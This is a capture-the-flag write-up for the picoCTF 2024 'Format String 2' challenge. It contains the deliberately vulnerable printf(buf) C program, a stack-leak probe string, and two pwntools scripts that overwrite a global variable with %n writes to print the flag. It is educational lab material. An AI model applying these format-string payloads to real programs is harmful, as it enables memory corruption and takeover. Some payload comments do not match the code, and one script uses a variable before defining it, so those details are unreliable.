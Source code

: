 ```yaml
---
title: picoCTF - 2024 - Pwn - Format String 2 
date: '2024-04-16'
tags: ['pwn', 'fmt', 'arbitrary-write', 'picoctf']
draft: false
summary: Overwriting a variable using the Format String Bug to fulfill an if-else condition for printing flag.txt. A very interesting challenge, to be honest.
---
```

Before starting, I want to say that I am not an expert when it comes to binary exploitation. If you find mistakes in my write-ups, please let me know. I am open to any sort of constructive criticism

Source code provided to us:
```c:vuln.c
#include <stdio.h>

int sus = 0x21737573;

int main() {
  char buf[1024];
  char flag[64];

  printf("You don't have what it takes. Only a true wizard could change my suspicions. What do you have to say?\n");
  fflush(stdout);
  scanf("%1024s", buf);
  printf("Here's your input: ");
  printf(buf);
  printf("\n");
  fflush(stdout);

  if (sus == 0x67616c66) {
    printf("I have NO clue how you did that, you must be a wizard. Here you go...\n");

    // Read in the flag
    FILE *fd = fopen("flag.txt", "r");
    fgets(flag, 64, fd);

    printf("%s", flag);
    fflush(stdout);
  }
  else {
    printf("sus = 0x%x\n", sus);
    printf("You can do better!\n");
    fflush(stdout);
  }

  return 0;
}
```

We want to make this if-statement true:

```c:If-Condition
if (sus == 0x67616c66)
```

But problem is the value of sus is `0x21737573`. So to solve this challenge, we basically have to overwrite the value of **`sus`** to `0x67616c66`.

As **`printf()`** is being used, we can use **`%n`** format specifier to overwrite value of sus. 

The **`%n`** modifier writes the amount of chars printed so far as an int to the address specified by the argument. Using the **`$`** specifier we could also specify from exactly where we want to read this address. We could also send the addresses as input to the program which would put those addresses on the stack.

First we want to find the offset of our input string on the stack. For that, i will pass 8 ‘A’ and will leak the addresses of the stack so that I can clearly see where the input is being stored:

```
AAAAAAAA|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p
```

Here I can see that my offset is 14:

![Fmt-2-sc](/static/writeups/picoCTF/format-string-2/fmt2_1.png)

Now, I know that I also need to know what address to write to. In this case it can be found using **`objdump`** on the binary:

```bash:objdump-command
objdump -D ./vuln | grep "sus"
```

So, basically I want to overwrite address `0x404060` with the value `0x67616c66`. Let’s start making our payload.

For creating the payload, I took help from a Guide on [Format String Bug](https://www.theflash2k.me/blog/ctf-techs/fsb-guide) written by my mentor [TheFlash2k](https://www.theflash2k.me/about). He has explain fmt in very detail.

He has also explain how to arbitrary write 4-bytes by passing one byte at a time. **[** *[Source](https://www.theflash2k.me/blog/ctf-techs/fsb-guide#writing-four-bytes)* **]**

So the final payload that I created:

```python:final-payload
#!/usr/bin/env python3
from pwn import *

# Setting up terminal context for debugging
context.terminal = ["tmux", "splitw", "-h"]

# Executable and ELF setup
exe = "./vuln"
elf = context.binary = ELF(exe)

# If the GDB argument is provided, attach GDB to the process at the specified breakpoint
if args.GDB:
    io = process()
    gdb.attach(io, "b *main+231")

io = remote("rhea.picoctf.net", 61208)
io.recvuntil(b"?\n")

# Offset = 14
# 14 (Offset) + 5 (For payload) + 1 (Address to be written on)
start = 20

# Address of the variable to be overwritten, found using objdump and grep
sus = 0x404060

# Function to calculate the difference between two values modulo 256
diff_hhn = lambda i, j: ((i - j) % 256) # (0xFF+1)

payload = f"%{0x66}c%{start}$lln".encode()            # Writing 0x66 to memory
payload += f"c%{start+1}$hhn".encode()                # Writing 0x66 to sus[0]
payload += f"%{diff_hhn(0x66,0x61)}c%{start+2}$hhn".encode()  # Writing 0x61 to sus[3]
payload += f"%{diff_hhn(0x61,0x6c)}c%{start+3}$hhn".encode()  # Writing 0x6c to sus[2]
payload += b"||||||"                                  # Padding to align memory addresses
payload += p64(sus)                                   # Address of sus
payload += p64(sus+3)                                 # Address of sus[3]
payload += p64(sus+1)                                 # Address of sus[1]
payload += p64(sus+2)                                 # Address of sus[2]

io.sendline(payload)
io.interactive()
```
### Flag:

![Fmt-2-sc](/static/writeups/picoCTF/format-string-2/fmt2_3.png)

## Bonus

You can automate this whole process by using format string bug exploitation [tools](https://docs.pwntools.com/en/stable/fmtstr.html). The script will be:
```python:payload-crafted-using-exec_fmt-&-autofmt
from pwn import *

context.log_level = "critical"

context.terminal = ["tmux", "splitw", "-h"]
exe = "./vuln"
elf = context.binary = ELF(exe)
if args.GDB: gdb.attach(io, "b *main+231")

#io = process()
io = remote("rhea.picoctf.net", 61208)

def exec_fmt(payload):
    io = remote('rhea.picoctf.net', 61208)
    io.sendline(payload)
    return io.recvall()

autofmt = FmtStr(exec_fmt)
offset = autofmt.offset

payload = fmtstr_payload(offset, {0x404060: 0x67616c66})

io.sendline(payload)

flag = io.recvuntil('}').split(b"...\n")[1]
flag = flag.decode('utf-8')

print(" ")
print("Flag:", flag)
print(" ")

io.interactive()
```

This script uses the `exec_fmt`, `autofmt` to find the offset for the payload and to find the address use `objump -D vuln` (as we did earlier).

### Flag:

![Fmt-2-sc](/static/writeups/picoCTF/format-string-2/fmt2_4.png)

> *That’s it for today’s blog, take Care* 😃